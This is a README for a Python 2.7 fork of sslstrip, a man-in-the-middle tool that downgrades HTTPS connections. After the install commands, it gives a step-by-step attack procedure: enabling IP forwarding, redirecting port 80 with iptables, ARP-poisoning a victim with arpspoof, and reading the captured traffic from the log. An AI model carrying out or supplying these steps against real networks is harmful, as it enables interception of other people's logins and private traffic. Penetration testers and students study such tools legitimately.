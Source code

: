 # sslstrip patched to run with python 2.7

sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

This is a fork to make it work again with python 2.7. It requires Python 2.7, along with the `twisted`, `pyopenssl`, and `service_identity` python modules.

## Install

>This installation instructions assume that you have Python 2.7 installed and that it is the python version used by default (if it is not just change `python` to `python2` hereafter).

If you don't have `pip` for python 2 already installed, you can install it (besides distro-specific ways) with:

```console
$ curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
$ sudo python get-pip.py
$ pip install --upgrade setuptools
```

Now you can install the python 2 module dependencies with:

```console
$ pip install twisted pyopenssl service_identity
```

And now you can clone this repo and install sslstrip

```console
$ git clone https://github.com/juanelas/sslstrip.git
$ cd sslstrip
$ sudo python setup.py install
```

> If you'd rather not install `sslstrip`, you can always run `sslstrip` from the source base by just typing `python sslstrip.py` and then the rest of options (see Usage below)

## Usage

Just run `sslstrip -h` as a non-root user to get the command-line options.

```text
sslstrip 0.9.1
Usage: sslstrip <options>

Options:
-w <filename>, --write=<filename> Specify file to log to (default sslstrip.log)
-p , --post                       Log only SSL POSTs. (default)
-s , --ssl                        Log all SSL traffic to and from server.
-a , --all                        Log all SSL and HTTP traffic to and from server.
-l <port>, --listen=<port>        Port to listen on (default 10000).
-f , --favicon                    Substitute a lock favicon on secure requests.
-k , --killsessions               Kill sessions in progress.
-h                                Print this help message.
```

The six steps to getting this working (assuming you're running Linux) are:

1) Flip your machine into forwarding mode (as root).

   ```console
   $ sudo echo "1" > /proc/sys/net/ipv4/ip_forward
   ```

   > If you want to make this change persist after reboot, in Debian-like distros you could better uncomment `net.ipv4.ip_forward=1` in `/etc/sysctl.conf` and reload it with:
   >```console
   >$ sudo sysctl -p
   >```

2) Run the sslstrip transparent proxy listening at port `<yourListenPort>` (if the `-l` option is omitted, `sslstrip` will listen on port `10000`)

   ```console
   $ sslstrip -l <yourListenPort>
   ```

3) Open a new terminal and setup `iptables` to intercept HTTP requests (port 80/tcp) and send them to your sslstrip transparent proxy:

   ```console
   $ sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port <yourListenPort>
   ```

5) Use `arpspoof` to poison the victim's ARP table so that it sends all traffic to the Internet to your machine instead of its default gateway:

   ```console
   $ sudo arpspoof -t <victimIpAddress> <routerIpAddress>
   ```

   > `arpspoof` is part of the `dsniff` suite. In Debian-like distros, if not already installed, you can install it with:
   >```console
   >$ sudo apt update && sudo apt install dsniff
   >```

6) Open a network sniffer (e.g. wireshark, tcpdump), or directly inspect the sslstrip log file (`sslstrip.log` by default), e.g. by running in other terminal
   ```console
   $ tail -f sslstrip.log
   ```
